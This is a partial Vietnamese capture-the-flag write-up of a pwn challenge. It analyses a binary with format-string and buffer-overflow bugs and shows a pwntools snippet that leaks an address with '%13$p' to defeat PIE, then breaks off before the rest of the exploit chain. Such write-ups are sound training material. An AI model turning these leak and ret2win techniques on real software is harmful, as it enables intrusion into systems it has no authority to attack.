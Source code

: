 # RET2WIN OR FMT ???

***Author : @Wan***

ida:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/19135599-2c8d-4277-bf8e-81abfe2a6827)


**ngay hàm main đã có lỗi fmt và bof rồi**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/a4d0c373-7bbb-473d-9201-d46a87c2d91f)


tại hàm fmt có thêm lỗi fmt nữa 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/5f93d469-0c6f-4339-a3c6-333010f2641b)


**tại hàm exit có dấu /bin/sh trong exit_code**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/3e05c645-e0fa-4bf3-a1b4-76eae51e15d1)


chà chà căng đó


checks:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/61aab881-852c-4e20-8f4c-6f8c6689ff09)



**cả canary lẫn relro đều tắt, bài này có thú vị đây** 

có khá nhiều dữ liệu ta cần khai thác, nên ta giờ ta sẽ vào những cái đơn giản nhất 

tại hàm **main** có lỗi **BOF** nên ta có thể **ret2win** vào **hàm fmt** để tiếp tục khai thác, **nhưng PIE mở nên ta cần leak địa chỉ exe trước**

```python

##################################
### Stage 1: leak exe  address ###
##################################

p.sendafter(b'ret2win or fmt\n', b'%13$p') 
exe_leak = int(p.recvline()[:-6], 16)
exe.address = exe_leak - 0x1160
log.info("exe leak: " + hex(exe_leak))
log.info("exe base: " + hex(exe.address))

```

oke h ta sẽ tiếp tục khai thác hàm fmt

tới đây rồi ta sẽ có rất nhiều hướng khai thác khác nhau, mình đã thử qua nhiều cách rồi và ```mình quyết định làm theo cách của author ``` ( **vì những cách khác ko ra :(**   )
